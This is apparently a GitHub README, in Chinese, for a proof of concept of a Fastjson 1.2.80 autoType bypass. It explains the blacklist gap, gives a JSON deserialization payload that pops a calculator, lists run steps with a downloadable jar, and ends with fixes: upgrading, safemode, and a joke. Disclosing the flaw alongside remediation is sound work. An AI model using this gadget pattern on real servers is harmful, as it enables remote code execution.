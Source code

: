 # fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译 `mvn clean package` ，或直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar)
2. 运行 `java -jar .\target\fastjson-rce-1.0.0.jar`
3. 发送payload ，如果弹出计算器则利用成功
![](images/exp.png)

### 修复方式
1. 升级到最新版本 v1.2.83
2. 卸载计算器 😂🤣
3. 开启safemode
   1. 开启方法如下  

![](images/safemode.png)